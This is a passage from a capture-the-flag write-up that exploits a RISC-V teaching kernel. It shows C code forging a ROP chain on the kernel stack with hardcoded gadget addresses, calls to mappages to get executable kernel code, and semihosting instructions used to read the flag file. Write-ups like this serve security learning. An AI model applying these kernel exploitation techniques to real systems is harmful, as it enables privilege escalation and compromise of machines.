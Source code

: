     uint64 *stack3 = (uint64 *)((void *)t2[aw_page] + 0x3b0 + 40);
    *stack3 = (uint64)0x0000000080003ac2; // (writei+238) ld ra, 104(sp), ld s0, 96(sp) ... addi sp, sp, 112, ret

    uint64 *stack4 = (uint64 *)((void *)t2[aw_page] + 0x3e0 + 104);
    *stack4 = (uint64)0x0000000080001454;   // call to mappages
    *(stack4 - 2) = (uint64)0x87f3f000;     // (pa) page containing the pwn function
    *(stack4 - 3) = (uint64)0x3fffffe000;   // (va) actually unmapped address in kernel pagetable 
    *(stack4 - 5) = (uint64)0x0;
    *(stack4 - 6) = (uint64)0x87fff000;     // (pagetable) kernel pagetable
    *(stack4 - 7) = (uint64)PTE_R | PTE_X;         

    uint64 *stack5 = (uint64 *)((void *)t2[aw_page] + 0x450 + 56);
    *stack5 = 0x3fffffe000;

    asm volatile("li a7, 1;      \
        ecall;          \
    ");
}

[...]
{{< /code >}}

As showed in the code, the controlled stack was forged to make the executions of the following pseudo-code:

```c
kfree(0x0000000087F03000);
kfree(0x0000000087F02000);
mappages(pagetable=0x87fff000, va=0x3fffffe000, size=0x1000, pa=0x87f3f000, flags=PTE_R | PTE_X);
(*0x3fffffe000)();
```
### Arbitrary code execution

At the end of the ROP chain, we will jump to the address 0x3fffffe000, where the `pwn` function is located, gaining arbitrary code execution in kernel mode. This privileged context allows the execution of any instruction in the ISA, so the semihosting feature can be used to retrieve the flag.

Semihosting mode allows the hosted system to interact with the host system for debugging purposes. This feature can be used through a specific sequence of instructions:

```
slli x0, x0, 0x1f
ebreak
srai x0, x0,  0x7
```

This sequence expects to receive the syscall number in the register a0 and the argument pointer array in the register a1. The idea is to use the semihosting syscalls `open` and `read` to open the file _flag.txt_ and write its content to a known location. Then, the `printf` function can be used to print the buffer to stdout and retrieve the flag!

Note that although semihosting allows the use of the `write` syscall, executing it will print the content of the buffer to the GDB console. Since we can't attach GDB to the remote instance of the challenge, this method will not work for retrieving the flag.

The relevant code is as follows:

